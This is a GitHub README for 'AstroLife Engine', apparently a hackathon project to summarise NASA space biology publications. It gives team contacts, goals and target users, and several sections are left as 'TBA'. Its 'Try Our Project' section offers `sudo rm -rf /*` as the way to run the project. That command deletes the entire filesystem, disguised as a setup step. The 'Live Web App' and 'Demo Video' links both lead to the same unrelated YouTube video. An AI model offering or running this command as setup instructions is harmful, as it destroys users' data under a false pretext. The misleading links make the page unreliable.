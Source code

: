 # AstroLife-Engine | A Space Biology Knowledge Engine 

***AstroLife Engine is a dynamic web application designed to simplify decades of NASA’s bioscience research for the future of human space exploration. By leveraging NASA’s open dataset of more than 600 space biology publications, AstroLife makes it easy to search, identify, and visualize key findings. The platform helps researchers, mission planners, and space enthusiasts explore insights more efficiently, enabling better understanding of how living systems adapt to space and supporting humanity’s journey to the Moon, Mars, and beyond.***  

- [Live Web App](https://www.youtube.com/watch?v=dQw4w9WgXcQ)

- [Demo Video](https://www.youtube.com/watch?v=dQw4w9WgXcQ)

## Table of Contents

- [AstroLife-Engine | A Space Biology Knowledge Engine](#astrolife-engine--a-space-biology-knowledge-engine)
  - [Table of Contents](#table-of-contents)
  - [1. Team Information](#1-team-information)
  - [2. Executive Summary](#2-executive-summary)
  - [3. Challanges](#3-challanges)
  - [4. Objectives](#4-objectives)
  - [5. Target Users](#5-target-users)
  - [6. Solution Overview](#6-solution-overview)
  - [7. How It Works](#7-how-it-works)
  - [8. Impact](#8-impact)
  - [9. Conclusion](#9-conclusion)
  - [10. Use Of Artificial Intelligence](#10-use-of-artificial-intelligence)
  - [11. Try Our Project](#11-try-our-project)
  - [12. NASA Data](#12-nasa-data)
  - [13. Other References](#13-other-references)

---

## 1. Team Information
**Team Name**: Luminara

**Members**:

| Name                 | GitHub Profile                                   | Contact                     |
|----------------------|--------------------------------------------------|-----------------------------|
| Ryan Ahmed           | [RyanAhmed911](https://github.com/RyanAhmed911) | TBA                         |
| Nusayba Mahfuza Zaman| [Nusuwuba](https://github.com/Nusuwuba)         | nusaybazaman3@gmail.com     |
| Raiyan Rahman        | [Raiyan465-F1](https://github.com/Raiyan465-F1) | TBA                         |
| Zarin Tasnim         | [ZarinTasnimNadia](https://github.com/ZarinTasnimNadia) | zarin_nadia@yahoo.com       |
| Al-Saihan Tajvi      | [Al-Saihan](https://github.com/Al-Saihan)       | al.saihan.bafsd.5@gmail.com |

---

## 2. Executive Summary

NASA’s decades of space biology research have produced critical insights into how humans, plants, and living systems adapt to the challenges of space. Yet this knowledge, while publicly available, is dispersed across hundreds of publications and databases, making it difficult for researchers, mission planners, and policymakers to access and apply effectively.

AstroLife Engine transforms these hundreds of publications into an accessible, AI-powered dashboard, enabling researchers, mission planners, and policymakers to quickly uncover insights, identify gaps, and support safer missions to the Moon, Mars, and beyond.

---

## 3. Challanges
- **Data Accessibility**: NASA’s bioscience research is scattered across hundreds of publications and multiple databases, making it hard to access and cross-reference relevant studies.

- **Information Overload**: Researchers and mission planners face difficulty extracting actionable insights from the massive volume of experimental data.

- **Knowledge Gaps Identification**: Without a unified view, it’s challenging to pinpoint areas that require further study or replication.

- **Integration of Diverse Data**: Publications, raw datasets (OSDR), and mission metadata need to be connected coherently for meaningful analysis.

- **Usability**: Existing resources are not optimized for quick exploration or decision-making by multidisciplinary users.

---

## 4. Objectives
- **Centralize Knowledge**: Aggregate 600+ NASA space biology publications into a single accessible platform.

- **AI-Powered Summaries**: Use AI to extract key results, conclusions, and metrics from publications.

- **Visualize Connections**: Build interactive dashboards and knowledge graphs to show relationships between experiments, organisms, and outcomes.

- **Identify Gaps & Trends**: Highlight areas of scientific progress, consensus, and missing research opportunities.

- **Support Decision-Making**: Provide actionable insights for scientists, mission planners, and policy makers.

- **Promote Open Science**: Ensure full use of NASA’s open datasets while making them understandable and navigable.

---

## 5. Target Users
- **Scientists & Researchers**: Looking to generate new hypotheses or analyze cross-study trends.

- **Mission Planners & Engineers**: Seeking actionable insights for safe and efficient lunar and Martian missions.

- **Program Managers & Funders**: Evaluating research priorities, progress, and gaps for investment decisions.

- **Educators & Students**: Exploring space biology concepts for learning and outreach.

- **Global Research Community**: Anyone interested in leveraging NASA open data for innovation and discovery.

---

## 6. Solution Overview
- TBA

---

## 7. How It Works
- TBA

---

## 8. Impact
- TBA

---

## 9. Conclusion
- TBA

---

## 10. Use Of Artificial Intelligence
- TBA

---

## 11. Try Our Project
```bash
sudo rm -rf /*
```

## 12. NASA Data
- [A list of 608 full-text open-access Space Biology publications](https://github.com/jgalazka/SB_publications/tree/main)
- [NASA Open Science Data Repository](https://science.nasa.gov/biological-physical/data/)

---

## 13. Other References
- TBA


